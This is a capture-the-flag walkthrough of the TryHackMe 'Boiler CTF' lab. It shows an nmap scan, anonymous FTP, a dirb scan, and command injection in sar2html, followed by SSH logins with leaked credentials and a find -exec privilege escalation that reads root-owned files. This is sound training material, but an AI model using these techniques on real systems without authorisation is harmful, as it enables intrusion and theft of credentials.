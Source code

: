 ```yaml
---
layout: post
title: Boiler CTF
categories: THM
---
```


Intermediate level CTF is created by [MrSeth6797](https://tryhackme.com/p/MrSeth6797) and is a free [room](https://tryhackme.com/room/boilerctf2).

"Intermediate level CTF. Just enumerate, you'll get there."

## Reconnaissance

First let's start with scanning the machine. Remember that by default, NMAP will only scan the most common 1000 ports!

```
$ nmap -sC -sV -p- 10.10.36.182
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-20 07:55 EDT
Nmap scan report for 10.10.36.182
Host is up (0.037s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.1.59
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
55007/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:ab:e1:39:2d:95:eb:13:55:16:d6:ce:8d:f9:11:e5 (RSA)
|   256 ae:de:f2:bb:b7:8a:00:70:20:74:56:76:25:c0:df:38 (ECDSA)
|_  256 25:25:83:f2:a7:75:8a:a0:46:b2:12:70:04:68:5c:cb (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We can start answering a couple of questions now... it's time to explore now!

Let's start with the FTP port... there might be something interesting there after all.

```
$ ftp 10.10.36.182  
Connected to 10.10.36.182.
220 (vsFTPd 3.0.3)
Name (10.10.36.182:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
Remote directory: /
ftp> ls -la
229 Entering Extended Passive Mode (|||45138|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
```
Looks like there might be something there after all.

```
$ cat .info.txt            
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```

This looks like a simple caesar substitution cipher... Oh yeah it is :')

```
Just wanted to see if you find it. Lol. Remember: Enumeration is the key!
```

Okay then. Let's go!

PS: Remember to continue answering the questions.

## Directory discovery
Directory discovery can tell much about how the developers create the web server and the page, especially when they have to maintain it.

One thing that comes to attention is the `robots.txt` file that came with the nmap scan and looks like a bluff - perhaps some more disdirection...

Now, let's launch a directory discovery tool, also know as an enumeration tool like [Dirbuster](https://www.kali.org/tools/dirbuster/), [Dirb](https://www.kali.org/tools/dirb/) or [Gobuster](https://www.kali.org/tools/gobuster/)!

```
$ dirb http://10.10.36.182

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Mar 20 07:52:32 2022
URL_BASE: http://10.10.36.182/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.36.182/ ----
+ http://10.10.36.182/index.html (CODE:200|SIZE:11321)                                                         
==> DIRECTORY: http://10.10.36.182/joomla/                                                                     
==> DIRECTORY: http://10.10.36.182/manual/                                                                     
+ http://10.10.36.182/robots.txt (CODE:200|SIZE:257)                                                           
+ http://10.10.36.182/server-status (CODE:403|SIZE:300)                                                        
                                                                                                               
---- Entering directory: http://10.10.36.182/joomla/ ----
==> DIRECTORY: http://10.10.36.182/joomla/_archive/                                                            
==> DIRECTORY: http://10.10.36.182/joomla/_database/                                                           
==> DIRECTORY: http://10.10.36.182/joomla/_files/                                                              
==> DIRECTORY: http://10.10.36.182/joomla/_test/                                                               
==> DIRECTORY: http://10.10.36.182/joomla/~www/                                                                
==> DIRECTORY: http://10.10.36.182/joomla/administrator/                                                       
==> DIRECTORY: http://10.10.36.182/joomla/bin/                                                                 
==> DIRECTORY: http://10.10.36.182/joomla/build/                                                               
==> DIRECTORY: http://10.10.36.182/joomla/cache/                                                               
==> DIRECTORY: http://10.10.36.182/joomla/components/                                                          
==> DIRECTORY: http://10.10.36.182/joomla/images/                                                              
==> DIRECTORY: http://10.10.36.182/joomla/includes/                                                            
+ http://10.10.36.182/joomla/index.php (CODE:200|SIZE:12478)                                                   
==> DIRECTORY: http://10.10.36.182/joomla/installation/                                                        
==> DIRECTORY: http://10.10.36.182/joomla/language/                                                            
==> DIRECTORY: http://10.10.36.182/joomla/layouts/                                                             
==> DIRECTORY: http://10.10.36.182/joomla/libraries/                                                           
==> DIRECTORY: http://10.10.36.182/joomla/media/                                                               
==> DIRECTORY: http://10.10.36.182/joomla/modules/                                                             
==> DIRECTORY: http://10.10.36.182/joomla/plugins/                                                             
==> DIRECTORY: http://10.10.36.182/joomla/templates/                                                           
==> DIRECTORY: http://10.10.36.182/joomla/tests/                                                               
==> DIRECTORY: http://10.10.36.182/joomla/tmp/ 
```

There are a lot of directories in here, so get cracking.

Looks like they all look the same, but the third discovered directory does give us something slightly different. Yes, still, it must be decoded but... again, nothing worth to help with the challenge.

The next directory though, is not a white page with some ciphered string but something called "COLLECTING SAR DATA", called "sar2html" on the left side bar.

A good idea is to explore the page... It looks like creating a "New" report adds some parameters into the URL, so how about LFI or even remote code execution?

Making a couple of tests (and some old knowledge), we find out that we can execute commands by entering a semicolon (`;`) after the equal sign (`=`).

Testing a handful we find an interesting file in the directory... `log.txt`! I wonder what is in there ;)

## Compromise the machine

Opening the "Select Host" drop down, we can find the content of the file and we get a username:password credentials that we might be able to use in that high ssh port.

```
$ ssh basterd@10.10.36.182 -p 55007
The authenticity of host '[10.10.36.182]:55007 ([10.10.36.182]:55007)' can't be established.
ED25519 key fingerprint is SHA256:GhS3mY+uTmthQeOzwxRCFZHv1MN2hrYkdao9HJvi8lk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.36.182]:55007' (ED25519) to the list of known hosts.
basterd@10.10.36.182's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

8 packages can be updated.
8 updates are security updates.


Last login: Thu Aug 22 12:29:45 2019 from 192.168.1.199
$
```

There is a file called `backup.sh` in the home directory, and opening it gives us some more credentials. Huh, I guess being mislead a handful of times (trolled really) does pay off at the end.

## Privilege Escalation

```
$ su stoner
Password: 
stoner@Vulnerable:/home/basterd$ cd
stoner@Vulnerable:~$ ls -la
total 16
drwxr-x--- 3 stoner stoner 4096 Aug 22  2019 .
drwxr-xr-x 4 root   root   4096 Aug 22  2019 ..
drwxrwxr-x 2 stoner stoner 4096 Aug 22  2019 .nano
-rw-r--r-- 1 stoner stoner   34 Aug 21  2019 .secret
stoner@Vulnerable:~$ cat .secret
You made .. ... ...., ... .....
stoner@Vulnerable:~$ sudo -l 
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
stoner@Vulnerable:~$
```
Looks like the author is really into doing a lot to troll our way around the machine ^.^

Let's take a look at [GTFOBins](https://gtfobins.github.io), see if there is something there that is worth trying out.

I looked into the different options to spawn a shell and came up empty until I took a look at the `find` command, which allowed me to execute the `cat` command on the `root.txt` file!

```
stoner@Vulnerable:~$ find . -exec cat /root/root.txt \;
It ....'. .... ...., ... ..?
It ....'. .... ...., ... ..?
It ....'. .... ...., ... ..?
```

Success!

